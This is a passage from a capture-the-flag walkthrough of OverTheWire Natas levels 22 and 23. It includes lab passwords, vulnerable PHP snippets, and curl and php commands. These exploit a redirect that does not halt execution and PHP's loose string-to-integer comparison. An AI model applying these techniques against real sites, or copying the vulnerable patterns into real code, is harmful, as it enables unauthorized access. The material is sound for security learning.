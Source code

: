 ```
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

### Level 22 - PHP `header()` exploit
```
http://natas22.natas.labs.overthewire.org/ natas22 chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

Vulnerable source:
```php
if(array_key_exists("revelio", $_GET)) {
  if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) { 
    header("Location: /"); 
  } 
} 
```

`header()` will just add a HTTP header `Location: /` but won't redirect. Only browsers will perfom the redirect. So let's use something other than a browser. `curl` maybe?

```bash
$ curl --user natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ "http://natas22.natas.labs.overthewire.org?revelio=1"
You are an admin. The credentials for the next level are:<br>
<pre>Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE</pre>
```

Reference:
- [http://php.net/manual/en/function.header.php](http://php.net/manual/en/function.header.php)

### Level 23 - String comparison
```
http://natas23.natas.labs.overthewire.org/ natas23 D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

PHP can be used to compare a string to a number, this is the vulnerability for this exercice:
```php
if(
    strstr($_REQUEST["passwd"],"iloveyou") && 
    $_REQUEST["passwd"] > 10
  ){
    // good boy
}
```

Which translated in plain English gives "if the password contains 'iloveyou' and the integer conversion of the password is greater than 10"

The integer conversion uses `intval` (except if there's a `.`, hence it uses `floatval`). `intval` will parse the beginning of the string:
```bash
$ php -r "var_dump(intval('5text here'));"
int(5)
$ php -r "var_dump(intval('5text here') > 4);" # equivalent to "('5text here') > 4"
bool(true)
```
> Internally, `intval` uses the Unix C function `strtod(3)`.
